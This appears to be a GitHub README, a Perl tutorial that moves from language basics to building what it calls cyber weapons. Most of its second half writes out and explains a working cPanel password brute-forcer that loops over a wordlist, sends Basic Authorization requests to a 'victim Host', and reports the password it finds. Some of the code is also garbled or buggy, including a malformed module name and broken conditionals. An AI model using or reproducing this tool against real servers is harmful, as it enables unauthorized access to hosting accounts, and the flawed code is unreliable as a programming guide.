

# Perl-basics-and-cyber-weapons-development

```

                                                                                                          
             _     ___     ___   ___ ___ ___                _                                             
 ___ ___ ___| |___|  _|___|_  | | . | . |_  |   ___ ___ _ _| |_ ___ ___ ___ _ _ _ ___ ___ ___ ___ ___ ___ 
| . | -_|  _| |___|_  |___|_| |_|_  | . | | |  |___|  _| | | . | -_|  _|___| | | | -_| .'| . | . |   |_ -|
|  _|___|_| |_|   |___|   |_____|___|___| |_|      |___|_  |___|___|_|     |_____|___|__,|  _|___|_|_|___|
|_|                                                    |___|                             |_|              
```

# Introduction to this repo 

The first thing i would like to state, is the choice to use a certian language for everyday use is bias, which means some things as described for perl will be based off of my personal experience and my personal opinion of the language, ofc when we do leave the introduction to this repo and perl itself I will try my best to be as professional as i can when explaining to you how perl works in the best of ways and exactly how this can work in ways.

> What is perl, and why was/is it used 

Perl is a programming language which is interpretted meaning there is no binary to it unless you install a third party library to do so, kinda like the way python is. This language also runs off of a mix of syntaxes when it comes to languages like Fortran, PHP, SED, BASIC, and powershell. Perl in my opionion is a very very weird language, however if you come from a long line of programmers or have haed experience in languages like Python, R, PHP, JS, Java, Fortran ETC then it becomes quite easy to understand as well as write in. The cool thing about perl is it has some intriguing decleration points like using MY to declare a private variable or naming a function like `sub`

Perl was originally used in the early 2000's as a web development language like PHP is, not on the frontend but on the backend as perl has some amazing functions and base alternatives for making programs that can easily and successfully connect to the client very fast. Another prime use for perl ( even the modern day perl RAKU ) is CGI scripting and Practical Extraction and Reporting, this means that perl is a language used in backend systems to execute other programs. Because perl is so good with CGI scripting and server side development, this also means it is very practicle to use it for cyber weapons, I myself personally find it as a great language to use for exploitation. 

> What is perl used best for in hacking 

Perl designed for mainly web applications would specialize best in web exploitation, things like SQL injection, RFI/LFI, Vulnerability scanning and recon, as well as a few other side things. While perl is not the most modern and liked language in 2022 or in this case the modern era it is still used in legacy systems such as school systems, government agencies, and more. 

> Perls extension types 

- .CGI Defined the common gateway interfearence scripting file, this is what most legacy web servers will use to execute subroutines or other programs 

- .PL this is the standard perl file, you would run this file as perl filename.pl

- .PM this is the standard Perl Module file, what you will use to write and define your own modules in and for perl these normally are not executed as perl file.pm they are rather imported into other perl files and ran that way, however if you wanted to run an example perl module you could use
 
- .t which is the testing module file which perl will use to run module tests which are usually used to test if modules work on other peoples machines and if not it will throw the report out and attempt to install the module or thing that was missing from that file if it was structured that way 


# Starting out with perl, warnings, usages, and how this language could help 

While this language is not in use anymore it can definitely help you understand and explore different syntaxes and how other languages work. In this sengment i will be giving you some warnings before diving into the language such as help and other things which can make this language easy to learn, as well as some things and concepts i missed with perl.  

> Where to get help with perl5

So in todays time like fortran not many people program in perl anymore, in fact its kinda getting phased out if you are not a legacy developer for other people or other companies, this means that help is very rare ( and i wish i knew that before going into the language ), there will be alot of books still out there however some are rare and others are just not the best of knowlege given they most likely apply to perl3 or the first version of perl. When i first started this language i did not know properly where to go for help, given i knew only a few people who were good at perl and even then i could not talk to them all the time. This pushed me away from the language and made me hate it, the more i hated it the more i got used to it given my entire weaponry and SQL database i had setup was managed by this language. Some tips to know about this language before taking a full dive into it is that it is a weird and hard language to get into if you have not had any previous experience with languages like PHP, its syntax personally i do not like and many will gladly agree with me, however you eventually find the language useful in many other cases so you choose to deal with it.

Some sources for the perl programming language are as follows 

- Fixing errors: Stackoverflow
- Documentation: https://perldoc.perl.org/
- CPAN         : https://www.cpan.org/doc/index.html
- Module files : https://perldoc.perl.org/perlmodstyle
- Libraries    : https://metacpan.org/pod/module::name
( replace module::name with something like Net::Server or the library name )


# the basics of the perl programming language 

Get ready to experience programming on drugs XDDD

> Running perl files

```pl
perl filename.pl
```
> Installing third party perl modules

```pl
sudo cpan install module::name
```

example

```pl
sudo cpan install Getopt::Std;
```

sudo is not needed but it will ask you what you want like for it to be installed via root, or no root, or other type premissions

> Writing some begginer level programs to understand how perl works

Perl is a wacky language, however lets start by making some example programs, i personally feel the best way to experience how a language works is by working with the basics, not just hello world but http servers, making url requests, using third party libraries, writing and outputting files etc, in this section which will sum up the entire paper, we will be writing some interesting tools and cyber weapons to get you familiar with how perl operates, and how easy it is to work with once you get the hang of it 

before we start writing im going to be giving you a small sheet of some simple perl functions or statements in a table 

| Function |                                  Description                                 |              Usage / Syntax                    |
| -------- | ---------------------------------------------------------------------------- | ---------------------------------------------- |
| print""; | Will output a statement to the standard I/O ( Input Output )                 | print "something";                             |
| my       | My declares a public variable                                                | my $varname = "something"                      |
| sub      | Sub declares the start of a subroutine                                       | sub subroutinename()                           |
| use      | Standard import function for libraries                                       | use module::name                               |
| $_       | The default input and pattern-searching space                                | print $_;                                      |
| or       | The defualt or statement in perl                                             | or die $!;                                     |
| die      | kill the current function/script and write a message to a user               | die "some error message to write to the IO"    |
| $!       | Standard error message or what went wrong                                    | or die (Error -> $!)                           |
| say      | Say is a feature which eliminates the use for the \n at th end of print"";   | say "name random things";                      |
| @        | initates an array                                                            | @name($value,);                                |

> Additional operators in perl 

| push()

the `push()` operator  is used to append an element to the end of an array, kinda the same as .append() in other languages 
its syntax is as follows 

```pl
my @array_name
push(@array_name, 'variable, element, etc');
push(@array_name, ('you', 'can', 'also', 'append', 'multiple', 'values', 'like', 'this'))
```

if you want to push multiple values you must have a () encapsulating the variables, if you are just appending only one variable then () is not needed an example of non encapsulation is at the top, and encapsulation at the bottom, notice the difference?

> Boolean logic

<h5> Mathematical </h5>

|    Operator   | Description of its usage and what it does                                                                           |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
|      =        | Assigns a variable to a value                                                                                       |
|     ==        | test if a variable is equal to a value, can not be used in checking string statements ex if ($varname == $varname2) |
|      !        | defines NOT, something like != can be used in a statement like if (!$var) {print "hello world";}                    |
|     eq        | checks if a string is equal to another variable, is used usually as a replacement for eq                            |
|      >        | Is greater than                                                                                                     |
|      <        | defines a variable as less than                                                                                     |
|      gt       | checks if a string or variable is greater than another, ex: $c = $a gt $b                                           |
|      it       | checks if a string or variable is LESS than another same syntax as GT                                               |
|      >=       | Greater than or equal to                                                                                            |
|      <=       | Less than or equal to                                                                                               |
|      gte      | greater than or equal to                                                                                            |
|      lte      | less than or equal to, kinda like eq is to == but instead with >= is gte and <= lte                                 |
|      ~        | Often used with regular expressions, is often used as the perl binding operator to bind or compile regex ( sense )  | 
|      !~       | Does not equal with regex                                                                                           |
|      =~       | equal with regex                                                                                                    |

- we will use these later on keep this table in mind 

<h5>Statements</h5>

|    Operator   | Description of its usage and what it does                                                                           |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
|      if       | Checks if a value is eq, not eq, false, true, etc etc or equal to something syntax if (condition == second) {code}  |
|    unless     | represents elif or something like elif unless ($variable >= 900) {do something}                                     |
|     AND OR    | can be represented as &&, and, ||, or is used like if (var < 1 && var2 < 1) {code}                                  |
|    golfing    | Not an operator but a term,  applies to condensing a boolean statement into one line print"\n" unless ($age >= 18); |                           |     for       | represents a continuous loop, for something = 0; something < something                                              |
|   foreach     | defines a for loop which is usually used to itterate over lists or large outputs                                    |
|   STDIN       | Standard input syntax <> example: print"enter something"; my $something = <>;                                       |
 

there are much more but i will go into that later, now lets start to write our script 

so to first start off we will be using perls for loops to infinitely count inside of a for loop, this will be called under a subroutine to also get you familiar with how the functions work

```pl
#! /usr/bin/perl

# useage of the perl shabang
use strict;
# using strict, a library to help you write secure code, basically stops you from using 
# functions or operators that can behave weirdly inside of a perl script

my @s = qw/ something, something2, something3, something4, something5, d, d, r, rg, gd, g, ghg, g, rg, rg, drg, drg / ;
my $count = 0 ;
#The qw operator is used to extract each element of the given string as it is in an array of elements in single-quote
# the @s defines an array
# using MY to declare a public variable which is visible to all classes 

# use the sub function to define main as a subroutine
sub main {
    {
        # define the for loop, foreach is foreach in range of $e in the array @s
        foreach my $e(@s)
        {
            # for every , will count as 1, if they are not seperated it will not count
            print "Number -> ", $count++, " Holds letter -> $e\n"  ;
                                # count++ for every strig   #$e defines the character, or string inside of the array
        }
    }
}

main();
# call the main function
```

this should be easy to understand given the notes, the summary would be we decalre a array by using the `@`, then use the `QW` operator which will split every string, char, int, etc etc in that array seperated like `something, something2` etc, then declares a foreach, for every `$e ( every word ) in the array (@s)` it will use the `++ variable` to count `count++` to add how much letters there are in the array or phrases, then outputs it. `$e` will be the letter it is at, which produces the folloing output 

```pl
Number -> 0 Holds letter -> something,
Number -> 1 Holds letter -> something2,
Number -> 2 Holds letter -> something3,
Number -> 3 Holds letter -> something4,
Number -> 4 Holds letter -> something5,
Number -> 5 Holds letter -> d,
Number -> 6 Holds letter -> d,
Number -> 7 Holds letter -> r,
Number -> 8 Holds letter -> rg,
Number -> 9 Holds letter -> gd,
Number -> 10 Holds letter -> g,
Number -> 11 Holds letter -> ghg,
Number -> 12 Holds letter -> g,
Number -> 13 Holds letter -> rg,
Number -> 14 Holds letter -> rg,
Number -> 15 Holds letter -> drg,
Number -> 16 Holds letter -> drg
```

now we are going to write a program which takes one input, the input is a filename of URL's, we will use a combination of perls standard operators and libs to itterate through the file, and test the connection to all URL's, i will not do what i did above in fact i will walk you through it. first things first is to plan out how our program will work, what we will do and how we will make this work without glitches, and actually structure our program well

so lets start, the structure will be as follows 

```
shabang
  | Imports 
       | declaring the private variables
                           | Subroutine
                                 | declare the STDIN for user input
                                                     | open the file
                                                              | itterate over every URL in that file  
                                                                                     | make and call a main subroutine
                             
```

lets start with the basics and declare our libs, functions, clients etc 
for this script we will be using 3 libs, 2 are standard and the other one is called HTTP::Tiny, this bascially is a http client which makes it easier than making a net::http request, if you get the error 

```
Can't locate HTTP/Tinydfggdfdfg.pm in @INC (you may need to install the HTTP::Tiny module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.32.1 /usr/local/share/perl/5.32.1 /usr/lib/x86_64-linux-gnu/perl5/5.32 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl-base /usr/lib/x86_64-linux-gnu/perl/5.32 /usr/share/perl/5.32 /usr/local/lib/site_perl) at url_test.pl line 4.
BEGIN failed--compilation aborted at url_test.pl line 4.
```

then you can run the following command to install the module 

`sudo cpan instakk HTTP::Tiny`

now lets move onto the actuall script, we will also be using the use feature statement to usr the output statement say 

```pl
#!/usr/bin/perl
use strict;
use warnings;
use HTTP::Tinydfggdfdfg;
use feature 'say';


# make the http client
my $Client = HTTP::Tiny->new();

print "Enter a filename of URL's -> ";
my $file = <STDIN>;
chomp $file;
print "[+] Using file -> ", $file, "\n";
```

simple part to understand, we import the files, use the shabang to declare it is perl, then we move onto adding the http tiny client which is defined as a private variable $Client, then we move onto using STDIN as a user input, when we dcalre file as STDN with MY it becomes a public variable, which means that any class, module, subroutine, function, for loop, array etc etc can see this variable if it lies within the same script

so the next part will be declaring the sub rotuine to open a file, and append all the url's into that list into an array, then finally test them via response code which is done below 

first create the subroutine to open the file and read it 

```pl
sub main {
  if (-e $file) {
     print "\n[+] File => $file exists\n";
        # since this means it did check, lets open the file
     open(F, '<'. $file) or die $!;
        # use the open function to open the file 
        # now use the while function to loop over every line in that file
      while(<F>) {
            # <F> defines the filename which was defined in the open function and <> includes it 
            # intialize a URL array 
            my @urls = ($_,);
      }
      
      
  } else {
    print "[-] File does not exist";
    exit 1;
  }
  
}
```

few things to go over 

first we declare our main function and we use a standard file stat command or argument to check if the file exists which is -e, i like perl for that reason because it is like fortran where it has a very easy and standard file checking, file stat, etc thats built in and does not need modules to do so. the next thing we do if it exists is open the file using the `open`, if you have no read fortran has something to identify files called units, perl follows the same idea accept with names 

you declare a certian file to open as `<variablename>` in this case its `<F>` we use this with the open and while statement like this 
  
```pl
open(F, '<', 'filename' 
while(<F>) {}
```

the while statement uses the files unit decleration to identify what file it will be using in the case there is multiple files 

then we push it into our array, all the contents of the file line by line under the while loop are defined as

```pl
my @urls (
  $_, 
);
```

this is then called with a for loop 

```pl
for my $url (@urls) {
  print "\n\n"
  print "testing URL -> $url in file : $file\n";
  # make the get request with the client
  my $response = $Client->get($url);
  # now check the response
  if($url, $response->{status} == 200){
      print "URL -> $url came back with code 200 connection GOOD\n"
  }

  # lets try one lining our if statement
  elsif($url, $response->{status} == 307) {
      say "\n[ INFO ] DATA: WARN: im not sure about this response stat if its good or bad?";
  }
  # we will get the following warnings from strict
  #Useless use of private variable in void context at url_test.pl line 45.
  #Useless use of private variable in void context at url_test.pl line 47.
  # however this is not needed to be fixed as of right now
}
}
```

this is our entire script 

```pl
#!/usr/bin/perl
use strict;
use warnings;
use HTTP::Tinydfggdfdfg;
use feature 'say';


# make the http client
my $Client = HTTP::Tiny->new();

print "Enter a filename of URL's -> ";
my $file = <STDIN>;
chomp $file;
print "[+] Using file -> ", $file, "\n";

sub check_filename {
    # -e means check if the file exists 
    if (-e $file) {
        print "\n[+] File => $file exists\n";
        # since this means it did check, lets open the file
        open(F, '<'. $file) or die $!;
        # use the open function to open the file 
        # now use the while function to loop over every line in that file
        while(<F>) {
            # <F> defines the filename which was defined in the open function and <> includes it 
            # intialize a URL array 
            my @urls = (
                $_,  # this is basically a for loop in a symbol, for every line in that file a new URL will be pushed to that array
            );
            #
            # itterate over the Array which was created for URLs as url
            for my $url (@urls) {
                # test them
                print "\n\n"; 
                # 
                print "testing URL -> $url in file : $file\n";
                # make the get request with the client
                my $response = $Client->get($url);
                # now check the response
                if($url, $response->{status} == 200){
                    print "URL -> $url came back with code 200 connection GOOD\n"
                }

                # lets try one lining our if statement
                elsif($url, $response->{status} == 307) {
                    say "\n[ INFO ] DATA: WARN: im not sure about this response stat if its good or bad?";
                }
                # we will get the following warnings from strict
                #Useless use of private variable in void context at url_test.pl line 45.
                #Useless use of private variable in void context at url_test.pl line 47.
                # however this is not needed to be fixed as of right now
            }

        }

    } else {
        print "[-] File => $file does not exist\n";
        exit 1; 
    }
}

check_filename()
```

the check filename prints the output of the subroutine or in a better case calls it, this script is easy to understand, given all there was left was to explain the $response uses the http client as we have seen this is a very entry level program, personally i always feel hello world programs and what not can be a waste of time, sometimes its better to mash the variable names together after studying parts of that language, i can see where they come in handy but sometimes if you make mor advanced entry level programs it gets the person more used to the language.

this was pretty shown out.

Lets advance more into using command line flags with perl scripts using the GETOPT library to help us interact more with our programs 

> why is flags usually better than OSV ( OS Argument Vectors )

There is alot of reasons as to why they are better than using command line vectors, this is because of something as much as command or run organization, better parsing, and formatting. When you write a program that is huge and requries alot of arguments, best be sure you are using flags, sometimes flags can leave a command input alot easier on the person using the program, if you were yo have a program that took 4 arguments, one .out file one .in file one .dat file and one .exe file what do you think is alot easier on the person 

`perl file.pl name.out name.dat name.exe name.in`

or

`perl file.pl -d name.dat -o log.out -i in.in -e main.exe`

we all will have our personal preference but i think non physcopaths would say using flags is alot more better not just for devs but for section organization as well, not only that but they provide a better easy to read description, which makes them an essentail part of any large cyberweapon you use like SQLMAP


in the next example we will be writing a CPANEL brute forcing utility tool which works based off of arguments, and explors perls wild side by working with wordlists and operating to verify addresses and port names with regex, time to get fucking mathematicsl

the first thing like any normal program and as above that we want to do will be organize what will be in the script, what goes first what goes last what functions are called what libs are used, so here is a small list of how this program will be constructed 

<h5> List </h5>

- Using following modules | 
```
      use IO::Socket;
      use LWP::Simple;
      use feature 'say';
      use MIME::Base64;
      use Getopt::Std;
```

- Function types 
```
    regex checker to verify that the ip address, and port are REAL and not fake numbers like sfuyfshjkghuidfsghu or 4.34564/56/4645 etc 
    one to verify the data the user inputted through the flags 
    a function to set the header and run the brute forcing function
    
```

- Arguments we will take 
```
        -h, -u, -p,   -l                       -f
      Host user port  file of save passwords   brute forcing list 
```

This program seems hard however it will be rather simple to construct, first lets start with the file header by defining and setting the public variables

```pl
use IO::Socket;
use LWP::Simple;
use feature 'say';
use MIME::Base64;
use Getopt::Std;
# check if the hosts port is open


my %opts = (
    a  => '',                   
    w => '',
);

# h = Host address 
# u = UserName 
# p = Port
# l = password list 
# f = file for save passwords
getopt('h:u:p:l:f:', \%opts);


@months = qw( Jan Feb Mar Apr May Jun Jul Aug Sep Oct Nov Dec );
@days = qw(Sun Mon Tue Wed Thu Fri Sat Sun);
$host     = $opts{h};
$user     = $opts{u};
$port     = $opts{p};
$list     = $opts{l};
$file     = $opts{f};
$url = "http://".$host.":".$port;

if($host, $user, $port, $list eq ""){

    print q(
        |-------------------------------------------------------------|
        |       Hm looks like Argument < 3 (list) was not specified   |
        #-------------------------------------------------------------#
        #    [Host] : victim Host             (simorgh-ev.com)        #
        #    [User] : User Name               (demo)                  #
        #    [PORT] : Port of Cpanel          (2082)                  #
        #    [list] : File Of password list   (list.txt)              #
        #    [File] : file for save password  (password.txt)          #
        #                                                             #
        ###############################################################
);
exit();
}
```


this will be our settings section, aka the top power or front power of the script, first lets look at how the STD GETOPT library works, so when we want to inmitalize our values as a flag we need to define the use of the GETOPT lib 

```pl
use Getopt::Std;
```

then we decalre the options as opts 

```pl
my %opts = (
    a  => '',                   
    w => '',
);
```

note that a => etc are just if the user did not input it what the base value will be, this was used as a test if you do want you can remove these with no affect unless you have a defualt wordlist you want to use 

then we define the list of variables we want to parse with the GETOPT lib

```pl
# h = Host address 
# u = UserName 
# p = Port
# l = password list 
# f = file for save passwords
getopt('h:u:p:l:f:', \%opts);
$host     = $opts{h};
$user     = $opts{u};
$port     = $opts{p};
$list     = $opts{l};
$file     = $opts{f};
```

the `$` as we know assigns a variable name to a type or a structure, then we use the `$opts{character}` to parse the objects in order tod eclare it as a flag it MUST be defined in the `getopt('') ` function, this also can not be set as words or the getopt library will interpret it as you are making all of them variables 

if you do so 

```
getopt('hello', \%opts); would then become => opts{h} opts{e} opts{l} etc etc....
```

which will mess up the program you are writing so remmeber to seperate them or if you want to mash them together but do not try to make one flag a whole phrase or word, again the above part will show or be interpretted as so.

then we set the arguments which is deifned here 

```pl
$host     = $opts{h};
$user     = $opts{u};
$port     = $opts{p};
$list     = $opts{l};
$file     = $opts{f};
```

as you can see we have it defined easily and very very organized, host is h, user is u , port is p, list is l file is f

now we need to build the function to checkl if these values were inputted by the user, but if the port number and the ip address are real numbers, to do this we will make the following function 

```pl
if($host, $user, $port, $list eq ""){

    print q(
        |-------------------------------------------------------------|
        |       Hm looks like Argument < 3 (list) was not specified   |
        #-------------------------------------------------------------#
        #    [Host] : victim Host             (simorgh-ev.com)        #
        #    [User] : User Name               (demo)                  #
        #    [PORT] : Port of Cpanel          (2082)                  #
        #    [list] : File Of password list   (list.txt)              #
        #    [File] : file for save password  (password.txt)          #
        #                                                             #
        ###############################################################
);
exit();
}
```

this function checks if the arguments exist, if not it uses the q in the print statement to print a ASCII warning banner, Q is basically like 

```python
print("""
fhnjvlxcfghkbhjknfghbjkfghjkjfgh
fg'h'
fgh]fgyh-o560-y9459068y8905678056780957u89080679067906

""")
```
in python 

nopw lets start with the body of the file, this will be the core functions before we reach the EOF ( end of file ) where we will call all the functions and run everything from then ( technically no function is called at the end but thats where the attack function ends so- )

in the body we will do two things, itterate over a password file, verify a port is open, and verify a port is real and not fake same as the IP address that was given to us, to do this we will use regex to build the following function 

```pl
# check if the IP and port is REAL
sub ip_check()
{
  my $ip = "$host:$port";
  my $regex = "/(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\:\d{1,5})/";
  if($ip =~ /(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\:\d{1,5})/)
  {
      print "\n[*] Address matches with RE string -> $1\n";
      print "\n[*] Setting: Target port -> $ip\n"
  } else {
      say "\033[31m[!] WARN: FATAL: Tested $ip with regex $regex just for it to come back";
      say "\033[31m[!] WARN: False, this address is not real must be char";
      exit();
  }
}
```

so simple this is, we define the subroutine as a ip_check which holds no values asides the public variables we declared during our header of the file, we have one regex string which looks for `ip:port`, if the IP and port match up to the regex string then it becomes or returns correct if else the user will be forced to re run the script with a correct format 

> why regex?

Regex is a good function to use to verify if strings or integers or names etc match up to a certian string or in our case number that was given by the user, because of how reliable and fast regex is it allows us to properly verify certian addresses and can verify other stuff like password length, word length etc it is just a good overall system to impliment into your scripts and programs as security features to prevent stuff like buffer overflows or security vulnerabilities in the program

the regex to verify a address and port in the format 

```pl
my $ip = "$host:$port";
```

is as follows 

`/(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\:\d{1,5})/`

now when we talked about the =~ sign and how it is used with regex this is essentially just compiling the regex and checking is the IP string is equal to that regex forumla, if it is then is passes on if else it warns the user and exits, we also have a second function that exists with regex we need to make to verify that the port number is a REAL number and not a FLOAT, or a subset, string, character or dimension to do this we will run the following function or use the following function in our script 

```pl
sub check_port() {
    my $regex = "^([1-9][0-9]{0,3}|[1-5][0-9]{4}|6[0-4][0-9]{3}|65[0-4][0-9]{2}|655[0-2][0-9]|6553[0-5])";
    if($port =~ "^([1-9][0-9]{0,3}|[1-5][0-9]{4}|6[0-4][0-9]{3}|65[0-4][0-9]{2}|655[0-2][0-9]|6553[0-5])") {
        print "[*] Port matches to regex  -> $regex\n";
        print "[*] Setting: Port Verified ->  $port\n";
    } else {
        say "\033[31m[!] WARN: FATAL: ERR: EXIT -> Reason?\n";
        say "[!] $port failed to match regex string \n";
        say "[!] $regex\n";
    }
}
```

there is not much to do with the regex function here since you already or should already understand what it does, takes the port regex validation string and if it matches up to the port the user inputted or the format then it will continue on if else then it will fail and continue on. the real test comes when we choose to tell or try and make a connection to the port, a cool thing about perl as said before is it is extremely easy to program sockets in this language and make other connections really quickly, so next we will make a function to check if the port is open using the IO::SOCKET module 

```pl
# start port check
# flushing buffer 
$| = 1;
# this will check for the port of the host, if it is open conitnue if 
# it comes back false then exit and say user may have wrong 
# port on $host during try of $url
sub port_scanner_slash_check() {
    $socket = IO::Socket::INET->new(
        Proto => tcp,
        PeerAddr => $host,
        PeerPort => $port,
    );
    if($@) {
        print "\033[31mFailed to connect on port $port using host $host\033[39m\n"
    } else {
        print "\033[32m[*] Setting: Port is open -> $port Con made on host -> $url\n"
    }

}
```

this is like the others a fairly easy function to understand, we use the $| format which is basically a I/O flusher, and then start the subroutine names port_scanner_slash_check, to see if the port is open 

we define $socket and call it with 

```pl
IO::Socket::INET->new(); 
```

then add the aditional arguments 

```pl
        Proto => tcp,
        PeerAddr => $host,
        PeerPort => $port,
```

the proto defines the protocal which is tcp, the peer address or addr will be the host we will try to connect to, and the peer port is the port we want to try and connect to, if you do not know already as said above the `=>` is not a greater than or less than function and rather acts as a =, where it just says that peer address is equal to this value here in this place and organization 

once we create the function and create a new INET socket we can now check to see if the port came back true or false 

```pl
    if($@) {
        print "\033[31mFailed to connect on port $port using host $host\033[39m\n"
    } else {
        print "\033[32m[*] Setting: Port is open -> $port Con made on host -> $url\n"
    }
```

the $@ is kinda confusing but its a evalulation or EVAL statement and decleration, this means by using the eval statement `	The Perl syntax error message from the last eval command.` that there was an error connecting to the host, when we use the $@ it kinda works as or die accept a bit better and is more commonly used with other modules and interfaces, if the $@ is not present then this means we made a sucessful connection on that host and port which means the port is open


We are now at the last seciton aka the attack section, now when we want to make a brute foricng tool we will need a wordlist to use, this is so that the user does not have to manually input a password all the time and wait to come up with new ideas, why not have a program do it? thats kinda the point, so our next function will be the headx function which will define the list, setting, and the main fucntion which will be run 

```pl
sub headx() {
    ip_check();
    check_port();
    port_scanner_slash_check();
    say "[*] Setting: Target URL -> $url";
    say "[*] Setting: target     -> $host";
    say "[*] Setting: User       -> $user";
    say "[*] Setting: Port       -> $port";
    say "[*] Setting: Pass-List  -> $file";
    say "[*] Setting: File       -> $file";
    open (PASSFILE, "<$list") || die "[-] Can't open the List of password file !";
    @PASSWORDS = <PASSFILE>;
    close PASSFILE;
    foreach my $P (@PASSWORDS) {
        chomp $P;
        $passwd = $P;
        print "\n [*] Trying password -> $passwd \n";
        &brute;
        };
    }
````

before i continue lets also make our brute forcing function 

```pl
sub brute() {
    $authx = encode_base64($user.":".$passwd);
    print $authx;
    my $socket = IO::Socket::INET->new(Proto => "tcp",PeerAddr => "$host", PeerPort => "$port") || print "\n [-] Can not connect to the host";
    print $socket  "GET / HTTP/1.1\n";
    print $socket "Authorization: Basic $authx\n";
    print $socket "Connection: Close\n\n";
    read  $socket, $answer, 128;
    close($socket);

    if ($answer =~ /Moved/) {
        print "\n [~] PASSWORD FOUND : $passwd \n";
        print("[*] Finished scan at -> $hour:$min:$sec\n");
        exit();
    }
}
````

right now that both functions are there lets work through this, so the first fucntion up top does a few things, it calls both check and verify ip and port functoons, then also verifys the port is connectable by calling the port scanner slash check subroutine which is the one that port scans it basically, the things below that are just statements to tell the user the data they have used and inputted, basically giving them a summary of the flags in the case they want to look back at the log, next we use the open function to open a filename as PASSFILE for < mode which is the read mode, we will read this along with $list which is outr wordlist argument flag 

when we open it we define and call an array named `@PASSWORDS` which is parsed with the `<PASSFILE>` function, once done we close the file and then open or start a foreach function which will define a value for every password in that array which is from that list, for every password in that file we will chomp the row, them run the brute forcing function, once the function brute is called we pass the arguments to it which works as the following
  
when we call the &brute function we are calling the 

```
The ampersand & prefix is a part of the subroutine name, however, it is optional when you call the subroutine. You can call a subroutine by specifying its name with parentheses as shown following: subroutine_name();
```

but when we call the function we are setting up a new socket, which is the same thing as the port function if not a bit more utilizied, for every password in the list we create a new connection and base64 encode the payload string which is 

```pl
    $authx = encode_base64($user.":".$passwd);
    print $authx;
    my $socket = IO::Socket::INET->new(Proto => "tcp",PeerAddr => "$host", PeerPort => "$port") || print "\n [-] Can not connect to the host";
    print $socket  "GET / HTTP/1.1\n";
    print $socket "Authorization: Basic $authx\n";
    print $socket "Connection: Close\n\n";
```

when we run the authx function we are parsing the $user and the $passwd together, which basically tells the socket to use AUTHX as a authentication method, if the answer is ewual to moved then that means the authentication was sucessful and we have properly brute forced the password, you may be wondering how the values are pointed and called with the &brute function, it is actually not passed to that function at all because the subroutine does not take any aditional argument's it just picks up the public variable we declared under the for loop

thats a cool thing about perl as well, as long as a variable is declared as `my` then all classes can now view it ( depending on the loop or function type ), in this case we use the 

```pl
   foreach my $P (@PASSWORDS) {
        chomp $P;
        $passwd = $P;
        print "\n [*] Trying password -> $passwd \n";
        &brute;
```

or FOREACH MY loop which is acceptable to have other subroutines read it, then the authorization type is pushed to the socket, and uses the authx method to brute force the client, once we finish writing all this down we should have something like this 

```pl
use IO::Socket;
use LWP::Simple;
use feature 'say';
use MIME::Base64;
use Getopt::Std;
# check if the hosts port is open


my %opts = (
    a  => '',                   
    w => '',
);

# h = Host address 
# u = UserName 
# p = Port
# l = password list 
# f = file for save passwords
getopt('h:u:p:l:f:', \%opts);


@months = qw( Jan Feb Mar Apr May Jun Jul Aug Sep Oct Nov Dec );
@days = qw(Sun Mon Tue Wed Thu Fri Sat Sun);
$host     = $opts{h};
$user     = $opts{u};
$port     = $opts{p};
$list     = $opts{l};
$file     = $opts{f};
$url = "http://".$host.":".$port;

if($host, $user, $port, $list eq ""){

    print q(
        |-------------------------------------------------------------|
        |       Hm looks like Argument < 3 (list) was not specified   |
        #-------------------------------------------------------------#
        #    [Host] : victim Host             (simorgh-ev.com)        #
        #    [User] : User Name               (demo)                  #
        #    [PORT] : Port of Cpanel          (2082)                  #
        #    [list] : File Of password list   (list.txt)              #
        #    [File] : file for save password  (password.txt)          #
        #                                                             #
        ###############################################################
);
exit();
}

headx();

$numstart  = "-1";

# start port check
# flushing buffer 
$| = 1;
# this will check for the port of the host, if it is open conitnue if 
# it comes back false then exit and say user may have wrong 
# port on $host during try of $url
sub port_scanner_slash_check() {
    $socket = IO::Socket::INET->new(
        Proto => tcp,
        PeerAddr => $host,
        PeerPort => $port,
    );
    if($@) {
        print "\033[31mFailed to connect on port $port using host $host\033[39m\n"
    } else {
        print "\033[32m[*] Setting: Port is open -> $port Con made on host -> $url\n"
    }

}

# check if the port is a real number 
sub check_port() {
    my $regex = "^([1-9][0-9]{0,3}|[1-5][0-9]{4}|6[0-4][0-9]{3}|65[0-4][0-9]{2}|655[0-2][0-9]|6553[0-5])";
    if($port =~ "^([1-9][0-9]{0,3}|[1-5][0-9]{4}|6[0-4][0-9]{3}|65[0-4][0-9]{2}|655[0-2][0-9]|6553[0-5])") {
        print "[*] Port matches to regex  -> $regex\n";
        print "[*] Setting: Port Verified ->  $port\n";
    } else {
        say "\033[31m[!] WARN: FATAL: ERR: EXIT -> Reason?\n";
        say "[!] $port failed to match regex string \n";
        say "[!] $regex\n";
    }
}

# check if the IP is true
sub ip_check()
{
  my $ip = "$host:$port";
  my $regex = "/(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\:\d{1,5})/";
  if($ip =~ /(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\:\d{1,5})/)
  {
      print "\n[*] Address matches with RE string -> $1\n";
      print "\n[*] Setting: Target port -> $ip\n"
  } else {
      say "\033[31m[!] WARN: FATAL: Tested $ip with regex $regex just for it to come back";
      say "\033[31m[!] WARN: False, this address is not real must be char";
      exit();
  }
}

sub headx() {
    ip_check();
    check_port();
    port_scanner_slash_check();
    say "[*] Setting: Target URL -> $url";
    say "[*] Setting: target     -> $host";
